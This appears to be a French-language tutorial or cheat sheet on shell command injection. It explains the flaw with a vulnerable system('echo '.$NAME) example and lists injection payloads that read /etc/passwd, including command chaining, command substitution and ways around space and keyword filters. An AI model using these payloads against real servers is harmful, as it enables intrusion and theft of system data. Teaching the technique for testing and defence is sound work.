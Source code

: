 <!--- id: intro --->
<!--- category: cmdinjection --->
# Injection de commandes Shell

L'injection de commande Shell est possible quand un programme utilise une donnée, entrée par l'utilisateur, sans la filtrer, comme argument d'une commande shell.

Par exemple: un formulaire permet de saisir son nom et l'afficher.
Le code coté serveur va ressembler à: system ('echo '.$NAME);
Si nous saisissons: YOLO; cat /etc/password;
Le serveur va enchainer les deux commandes en executant system ('echo YOLO; cat /etc/password;'); et nous permettre de récupérer le contenu du fichier passwd.

<!--- id: CommandPrinciple --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Command Injection: Principe

L'injection de commande Shell est possible quand un programme utilise une donnée, entrée par l'utilisateur, sans la filtrer, comme argument d'une commande shell.

Par exemple: un formulaire permet de saisir son nom et l'afficher.
Le code coté serveur va ressembler à: 
```` 
system ('echo '.$NAME);
````
Si nous saisissons: 
````YOLO; cat /etc/password;
````
Le serveur va enchainer les deux commandes en executant:
<pre><code>system ('echo YOLO; cat /etc/password;'); 
</code></pre> 
Nous allons récupérer le contenu du fichier passwd.

Avec une injection de commande nous avons la main sur le serveur.
Nous pouvons récupérer des informations sur le serveur (uname -a), recupérer des noms de comptes (cat /etc/passwd), récupérer les fichiers de config du serveur web, lancer un reverse shell...

<!--- id: CommandChainUx --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Unix: Enchainer deux commandes shell

Utiliser les séparateurs de commandes ; && | ||
<pre><code>echo YOLO; cat /etc/passwd
echo YOLO && cat /etc/passwd
echo YOLO | cat /etc/passwd
echo YOLO || cat /etc/passwd    Seulement si la première commande est en echec
</code></pre> 

<!--- id: CommandEvalUx --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Unix: Force command execution in a string

Il est possible de forcer l'execution d'une commande avec ` $ et {
<pre><code>echo `cat /etc/passwd`
echo $(cat /etc/passwd)
echo {cat,/etc/passwd}
</code></pre> 

<!--- id: CommandSpaceFilteres --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Bypass: Les espaces sont filtrés

Les développeurs peuvent avoir mis des filtres pour empécher l'execution de commande. Par exemple retirer les espaces. Néanmoins, même sans espaces, il est toujours possible de lancer lancer des commandes:
<pre><code>cat&lt;/etc/passwd
{cat,/etc/passwd}
X=$'cat\x20/etc/passwd'&&$X
</code></pre> 

<!--- id: CommandBlacklist --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Bypass: Certains mot clefs sont filtrés

Si un filtre recherche une liste de commandes, il est toujours possible de le contourner: simple quote, double quote, backslash et slash
<pre><code>c'a't /etc/passwd
cat /etc/passwd
c\at /etc/passwd
who``ami
</code></pre> 
Et si un nom de fichier est filtré, il est possible de multiplier les /
Filtre sur cat et /etc/passwd
<pre><code>c\at /etc////////passwd
</code></pre> 

